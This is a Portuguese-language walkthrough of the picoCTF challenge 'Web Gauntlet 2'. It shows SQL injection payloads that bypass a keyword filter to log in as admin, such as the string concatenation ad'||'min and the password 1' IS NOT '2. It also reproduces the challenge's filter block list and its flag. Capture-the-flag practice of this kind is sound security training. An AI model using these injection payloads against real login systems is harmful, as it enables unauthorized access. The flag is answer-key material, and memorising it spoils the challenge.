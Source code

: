 # Gauntlet 2
###### Resolvido por @Menegaldo e @BrunoCuba 
> Este é um CTF sobre [Tipo de Vulnerabilidade 1, Tipo de Vulnerabilidade 2 e Tipo de Vulnerabilidade 3]  

## Sobre o Desafio  
This website looks familiar...  

**Objetivo:** Log in as admin Site:  

## 🔗 Links do Desafio  
- [Acesse o site](http://mercury.picoctf.net:21336/)  
- [Página de filtragem](http://mercury.picoctf.net:21336/filter.php)  

Boa sorte! 🔥  

## Solução  

Ao acessar o site com a segunda questão, percebi que ela seria quase igual ao web Gauntlet 1, por ter o mesmo esquema de uma página de Login e Senha.

![image](https://github.com/user-attachments/assets/286fe1ca-4336-46bd-80ef-d882e5392d3d)

Depois, acessei o `filter.php`, que no primeiro exercício mostrava quais eram os filtros para não usar no comando da Query. No caso deste exercício, os filtros são:

![image](https://github.com/user-attachments/assets/d59a122f-447c-4c72-a41b-3b0f023db98f)

Minhas primeiras tentativas incluíram buscar no ChatGPT por algumas alternativas, e ele me deu o seguinte comando:

```sql
LOGIN: admin' AND 1=1 AND (SELECT name FROM sqlite_master WHERE type='table') --  
SENHA: qualquer coisa
```

Porém, essa tentativa não foi favorável, pois o site tem um filtro de tamanho de caracteres também:

![image](https://github.com/user-attachments/assets/ae16e14f-c01e-477c-9b32-bec59c104f81)

Depois disso, pedi ao GPT para me passar todos os comandos do SQLite:

```sql
SELECT
FROM
WHERE
AND
OR
NOT
INSERT INTO
UPDATE
DELETE
CREATE TABLE
DROP TABLE
ALTER TABLE
JOIN
UNION
GROUP BY
HAVING
ORDER BY
LIMIT
DISTINCT
LIKE
IN
BETWEEN
IS NULL
IS NOT NULL
EXISTS
CASE
=
<
<=
<>
!=
IS TRUE
IS FALSE
IS NOT TRUE
IS NOT FALSE
IS
char()
hex()
substr()
length()
count()
sum()
avg()
min()
max()
lower()
upper()
random()
```

Com todas essas opções, comecei a tentar diferentes comandos de forma que o valor fosse positivo e nenhum filtro fosse barrado, mas nenhuma ideia funcionou. Pedi ajuda ao GPT novamente, e ele sugeriu tentar comparar dois números diferentes com o `IS NOT` para que o valor fosse `TRUE`, permitindo que a lógica no SQLite me desse acesso ao site.

Minha primeira tentativa foi:

```sql
LOGIN: 'qualquer coisa'
SENHA: 1' IS NOT '2
```

![image](https://github.com/user-attachments/assets/3e517e79-1815-433c-b75d-a382d167db5b)

![image](https://github.com/user-attachments/assets/fdbf8787-3af3-4c71-ac97-5ee47694a88e)

Eu percebi que não adiantaria tentar entrar com outro usuário, então voltei ao Web Gauntlet 1 para ver como o login do admin funcionava e tentar burlar o filtro.

No campo de LOGIN, eu precisava usar: `ad'||'min`, e então tentei novamente no campo de SENHA: `1' IS NOT '2`.

Com isso, consegui realizar o login no site.

![image](https://github.com/user-attachments/assets/1f2b11fe-7eae-40e4-b8dd-779e79cd8a86)  

![image](https://github.com/user-attachments/assets/5d4ccf40-2239-47dc-b20e-9391161df011)

Depois, acessei o `filter.php`, que me apresentou o seguinte código:

```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}
?>  
```

> Assim, obtemos a flag `picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`  
